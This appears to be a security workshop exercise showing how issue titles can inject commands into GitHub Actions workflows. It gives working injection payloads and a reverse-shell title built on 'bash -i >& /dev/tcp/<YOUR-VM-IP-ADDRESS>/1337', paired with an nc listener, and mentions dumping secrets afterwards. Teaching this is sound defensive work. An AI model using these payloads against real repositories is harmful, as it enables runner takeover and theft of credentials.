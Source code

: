 # Exercise 1 - :bomb: Exploiting the script injection vulnerability in the run command
The [Check issue title workflow](.github/workflows/check-issue-title.yml) uses the issue title in the `run` command as follows:
```
title="${{ github.event.issue.title }}"
```
Because this value is provided by the user when they create a new issue, this provides an opportunity for an attacker to exploit the workflow with by crafting an issue title that tricks the script into executing code where it's expecting data.

If we open an issue with the title...
```
octocat"; ls -l $GITHUB_WORKSPACE"
```
...the script looks like the following...
```
title="octocat"; ls -l $GITHUB_WORKSPACE""
```

This payload closes the initial quote, then ends the command with a semicolon. This allows the following `ls -s` command to run as a separate command.  

### Create an issue with the exploit payload
Let's see this in action by creating a new issue with this title and see what happens. Follow the steps below to exlpoit the script injection vulnerability in your repo:  
1. Go to the Issues tab and click the green `New issue` button in the top right.  
2. In the issue form type `octocat"; ls -l $GITHUB_WORKSPACE"` in the title field.  
3. Leave the description field empty and click the green `Create` button in the bottom rigth.  
4. Navigate to the Actions tab and select the `Check issue title` actions workflow on the left.  
5. Click on the workflow run.  
6. Click on the job `check-issue-title`.  
7. In the `check-issue-title` job lob, click the `>` to the left of `Check issue title` step to see the output.  
8. Observe that the workflow runs the command `ls -l $GITHUB_WORKSPACE`!  

![alt script injection output in log](/images/exercise1.png "script injection output in log")

Now let's look at the [Check issue title with action workflow](.github/workflows/check-issue-title-with-action.yml) which uses an [action](.github/actions/check-issue-title-action/action.yml) using the run command. The [action](.github/actions/check-issue-title-action/action.yml) uses the issue title in the run command as follows:
```
if [[ "${{ inputs.issue-title }}" =~ ^octocat ]]; then
...
```
We'll need to craft a different payload for this because the input is used directly in the `if` statement. Let's try opening an issue with the following title...
```
" == $(ls -l $GITHUB_WORKSPACE) && "octocat
```
If we look at the run of the [Check issue title with action workflow](.github/workflows/check-issue-title-with-action.yml) that was triggered using the payload we used above, we will notice that we don't see the output of the `ls -s $GITHUB_WORKSPACE` command in the logs. So, this workflow is not vulnerable, right? Wrong! This workflow is still vulnerable to script injection. Let's try using a different payload to see some evidence of that.  

If we open an issue with the title...
```
" == $(wget github.com) && "octocat
```
...the script looks like the following...
```
if [[ "" == $(wget github.com) && "octocat" =~ ^octocat ]]; then
...
```
This payload will cause the script to run `wget github.com` as it evaluates the if condition.  

### Step by step
Let's see this in action by creating a new issue with this title and see what happens. Follow the steps below to exlpoit the script injection vulnerability in your repo:  
1. Go to the Issues tab and click the green `New issue` button in the top right.  
2. In the issue form type `" == $(wget github.com) && "octocat` in the title field.  
3. Leave the description field empty and click the green `Create` button in the bottom rigth.  
4. Navigate to the Actions tab and select the `Check issue title with action` actions workflow on the left.  
5. Click on the workflow run.  
6. Click on the job `check-issue-title`.  
7. In the `check-issue-title` job lob, click the `>` to the left of `Check issue title` step to see the output.  
8. Observe that the workflow log shows the output of the command `wget github.com`!  

### :imp: Getting a shell on the runner
Now let's try something a little more sinister...  
> **Note**: Because next part of this lesson requires a cloud VM with a public IP address, we will only demo this section in the workshop. We encourage you to go through this part of the exercise on your own after the workshop.  

1. Spin up a linux VM in the cloud that has a public IP address.
2. Open a command prompt and ssh into the VM
3. Run the command `nc -nvlp 1337` on the command prompt of the VM. This will cause the VM to listen on the port 1337.  
3. Next open a new issue in your repo with the title `octocat"; bash -i >& /dev/tcp/<YOUR-VM-IP-ADDRESS>/1337 0>&1 ; ls -l $GITHUB_WORKSPACE"`, replacing `<YOUR-VM-IP-ADDRESS>` with the public IP address of your cloud VM. This will cause the workflow to pipe the bash shell to your VM's IP address on port 1337.  
4. Now return to the command prompt window. As the worklfow runs, you will see your command prompt window drop into a shell on the runner. Now you have a shell on the runner! This is a great "foot in the door" from which I can attemp other exploits, like dumping secrets or cloud credentials to use in other attacks.  

